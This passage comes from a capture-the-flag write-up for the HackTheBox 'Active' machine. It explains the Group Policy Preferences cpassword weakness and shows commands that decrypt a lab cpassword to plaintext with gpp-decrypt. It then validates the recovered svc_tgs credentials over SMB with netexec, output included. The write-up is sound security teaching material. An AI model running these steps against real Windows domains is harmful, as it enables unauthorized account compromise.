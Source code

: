<br />

It contains both a `userName` and a `cpassword` field.

<br />

## GPP Password Decrypt:

<br />

The `groups.xml` file is a typical artifact found in `GPP`. It is generated each time a new `Group Policy Preference` is created.

This file contains an encrypted credential in the `cpassword` field.

So, what is the problem?

The issue is that the key used to encrypt the `cpassword` was publicly disclosed. Although this vulnerability was patched in `MS14-025`, it does not prevent exploitation of previously created entries.

For a deeper understanding of this attack, refer to [this post](https://n1chr0x.medium.com/unwrapping-gpp-exposing-the-cpassword-attack-vector-using-active-htb-machine-4d3b97e0ac43)

<br />

### gpp-decrypt:

<br />

The most commonly used tool to decrypt the `cpassword` is `gpp-decrypt`, written in Ruby.

We can run it with the following command:

<br />

```bash
❯ gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
GPPstillStandingStrong2k18
```

<br />

Next, we verify the credentials using `netexec`:

<br />

```bash
❯ netexec smb active.htb -u "svc_tgs" -p "GPPstillStandingStrong2k18"
SMB         10.10.10.100    445    DC               [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:DC) (domain:active.htb) (signing:True) (SMBv1:False)
SMB         10.10.10.100    445    DC               [+] active.htb\svc_tgs:GPPstillStandingStrong2k18 
```

<br />

The credentials are valid. Let's enumerate the available shares for `svc_tgs`:
